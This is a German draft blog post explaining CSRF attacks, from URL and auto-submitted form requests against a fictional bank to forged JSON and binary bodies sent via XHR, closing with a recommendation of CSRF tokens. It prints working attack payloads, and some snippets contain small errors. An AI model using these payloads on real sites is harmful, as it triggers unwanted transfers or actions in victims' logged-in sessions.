 ```yaml
---
title: 'CSRF in Http Basierten Binaer Protokollen'
date: 2023-12-07
categories:
- tranquilpeak
- features
tags:
- html elements
- markdown
draft: true
---
```

# Einleitung: Was ist eine CSRF?
HTTP ist im Grunde ein stateless Protokoll. Man stellt eine Anfrage an einen Server und bekommt darauf die Antwort. Der Server schliesst nun die Verbindung und das Spiel beginnt von neuem. Damit der Server weiss wer man ist, muss zwingend eine Art Token mitgeschickt werden. Dies geschieht traditionell mit Cookies. Mit Cookies kann der Server auf dem Client Informationen speichern. Ein Cookie kann fuer einen bestimmten Pfad fuer einen gewissen Zeitraum vom Server beim Client gesetzt werden. Diese Informationen werden auch bei jeder Anfrage automatisch mitgeschickt. Da diese Cookies einen State in HTTP implementieren werden sie auch verwendet um Authentifizierungen zu Regeln. Meist wird nach einem Login ein Session Cookie generiert mit einem zufaelligen Token um dem Client die Moeglichkeit zu bieten ohne weiteren Login die Seite zu verwenden.

Man kann also davon ausgehen, dass, wenn eine Seite aufgerufen wird und ein gueltiges Session Cookie existiert der Benutzer automatisch eingeloggt ist.
Eine Cross-Site-Request-Forgery Attacke beruht also darauf ein Opfer eine vom Angreifer praepierte Seite zu locken, von der ein Request zu der betreffenden Seite gestartet wird, welcher, da der Benutzer durch das Session Cookie eingeloggt ist, in seinem Kontext ausgefuehrt wird.

Betrachten wir ein einfaches Beispiel: 
Eine Bank fuehrt ihre Ueberweisungen mit einem einfachen Aufruf aus der wie folgt aussieht:

```language-html
<form action="transferMoney.php" method="GET">
    <input type="text" name="ktnr" value="">
    <input type="text" name="amount" value="">
    <input type="submit" name="submit" value="Let it rain money">
</form>
```

Wenn man sich den Aufruf naeher Betrachtet wird dieser Request gemacht:

```
GET /transferMoney.php?ktnr=123456&amount=100 HTTP/1.1
Host: bank.me
Cookie: SessionID=<totallyRandomSessionID>
```

Der gleiche Request laesst sich durch den Aufruf der URL: "http://bank.me/transferMoney.php?ktnr=123456&amount=100" erzielen. Dies hat zur Folge, dass der Angreifer nur diese URL im Browser des Opfers aufrufen muss um Geld auf das Konto 123456 zu transferieren.
Am einfachsten eine URL aufzurufen ist ein iframe.
Da der Session Cookie jedes mal mitgeschickt wird, wenn das Opfer die Domain bank.me aufruft, praepiere ich eine Seite mit folgendem Code:

```language-html
<iframe src="http://bank.me/transferMoney.php?ktnr=evilKtnr&blz=77050000&amount=100000"></iframe>
```

Bei ansurfen der Seite wird die Seite bank.me aufgerufen und Geldtransfer von 100.000 Euro auf das Konto "evilKtnr" veranlasst.

Man koennte jetzt natuerlich die Parameter per POST uebertragen und nicht an die URL anhaengen. Gehen wir davon aus und die Bank veranlasst dieses um ihre Applikation weiter abzusichern. Der Aufruf reicht also nichtmehr da der Aufruf nun so aussieht:

```
POST /transferMoney.php HTTP/1.1
Host: bank.me
Cookie: SessionID=<totallyRandomSessionID>
Content-Length:22

ktnr=123456&amount=100
```

Die einfachste Moeglichkeit einen POST Request an dieses PHP Skript "transferMoney.php" zu schicken ist auch ein Formular zu bauen oder das der Bank mit einer kleinen Aenderung zu Uebernehmen.

```language-html
<form action="http://bank.me/transferMoney.php" method="POST">
    <input type="text" name="ktnr" value="evilKtnr">
    <input type="text" name="amount" value="100000">
</form>
<script>
document.getElementByTagName("form")[0].submit();
</script>
```

Das beigefuegte PHP Script bewirkt, dass das Formular ohne Interaktion des Opfers abgeschickt wird.
So kann nun alles uebertragen werden.

# Fuck You! Ich benutze JSON!
Wir ueberlegen uns was passieren wuerde, wenn wir ein Formular mit einer Textarea mit dem Namen "x" bauen einem JSON als Value.
Nach dem oben genannten Beispiel sollte klar sein, dass der Request aussieht wie Folgt:

```
POST /somewhere HTTP/1.1
Cookie: SessionID=<totallyRandomSessionID>
Content-Length:

x={'kant':'x**2+y**2=z**2'}
```

Wenn man versucht `"x={'kant':'x**2+y**2=z**2'}"` durch JSON parsen zu lassen wird es einen Fehler produzieren.

## Die Formular Variante
Betrachten wir aber, was da eigentlich geschickt wird, faellt uns auf, dass es sich um Strings handeln koennte.

An sich ist der Name "x" auch nur Ballast, aber selbst, wenn wir es leer setzen kriegen wir das "=" nicht weg. Wenn wir weiterhin Formulare verwenden wollen ist es wohl die einfachste Moeglichkeit das = in das JSON einzugliedern. Im oben genannten Beispiel saehe das Formularfeld dazu so aus:

```language-html
<input type="{'kant':'x**2+y**2" value="z**2'}">
```

Damit wuerde das = in das JSON eingebunden werden und ein korrektes JSON produzieren.

## XHR Requests
Um das ganze zu umgehen, und da wir eh JavaScript einsetzen muessen um das Formular ohne Interaktion abzusenden, kann, durch die Moeglichkeit der neuere Browser, auch direkt auf reines JavaScript mit XHR Requests zurueckgegriffen werden.
XHR bezeichnet das im Umgangssprachlich besser bekannten AJAX Requests.

Durch einen einfachen Request (Hier mit Jquery vereinfacht), kann sehr einfach ein JSON-Request gemacht werden.

```language-javascript
$.ajax({
   url: '%your_service_url%',
   type: 'POST',
   contentType: 'text/json',  
   data: {"a": true,"b": "some string"},
   processData: false
});
```

# Man kann nicht wirklich Binaer schicken?
Das ist das schoene an XHR Requests. Die einfache Antwort ist: Doch!
Man kann JavaScript XHR Requests Typed Arrays uebergeben, was nicht nur die JSON Angriffsvariante deutlich erleichtert, sondern es auch Moeglich macht, Binaerdaten in einem HTTP Request unterzubringen.

```language-javascript
var bytesToSend = [253, 0, 128, 1],
    bytesToSendCount = bytesToSend.length;

var bytesArray = new Uint8Array(bytesToSendCount);
for (var i = 0, l = bytesToSendCount; i < l; i++) {
  bytesArray[i] = bytesToSend[i];
}

$.ajax({
   url: '%your_service_url%',
   type: 'POST',
   contentType: 'application/octet-stream',  
   data: bytesArray,
   processData: false
});
```

Dabei werden die einzelnen Bytes in ein Typed Array gebracht, welches man mit einem normalen XHR Request (Hier mit JQuery vereinfacht), abgeschickt wird.
Der Content-Type kann dabei aber 3 Werte annehmen, ohne, dass ein Pre-Flight geschickt wird. Auch koennen die Header nicht bearbeitet werden, was einen Eingriff Massiv einschraenkt.
Trotzdem sollte hier beachtet werden, dass dieser Pre-Flight spezifiziert ist, aber in einzelnen Faellen von Plugins umgangen werden kann.
So gab es eine Luecke in Flash, bei der man eine Anfrage an einen dritten Server (Server eines Angreifers) stellte. Diese Seite gab den Pre-Flight, der alles erlaubte und leitet mit einem 307er weiter auf die eigentlich anzugreifende Seite. Die Folge war, dass alle Header mitgeschickt wurden und kein neuer Pre-Flight gesendet wurde.

Dies macht es nun moeglich CSRF Angriffe auf alle Protokoll-Arten durchzufuehren, die auf HTTP basieren.

# Einschraenkungen
Ich erwaehnte bereits Einschraenkungen, mit denen in neueren Browsern zu Rechnen ist.

1. Vorhandenes Session Cookie im Browser: Die erste grosse Einschraenkung waere wohl das zur Verfuegung stehende Session Cookie. Eine CSRF Attacke findet standardgemaess im Browser statt. Dementsprechend muss auch hier das Session Cookie vorhanden sein. Bei einer reinen Desktop Applikation ist dies eher unwahrscheinlich.
* Veraenderung der Header: eine Veraenderung der Header hat in aktuellen Browser einen Pre-Flight zur Folge. Dies fuehrt zu keiner korrekten Ausfuehrung der CSRF Attacke.
* Verwendung eines vernuenftigen CSRF Token: Well...dann ist alles richtig implementiert und man kann einpacken mit CSRF.

# Fazit
Es ist also nicht leicht diese Art des Angriffes auszufuehren, weil es doch recht viele Einschraenkungen gibt. Sollte man aber alle Bedingungen erfuellen, kann der Angriff sehr effektiv sein.
Es sollte also bei jedem Request, der irgendwie an eine API geht, ein CSRF-Token mitgeschickt werden, damit so ein Angriff erkannt werden kann.

so long


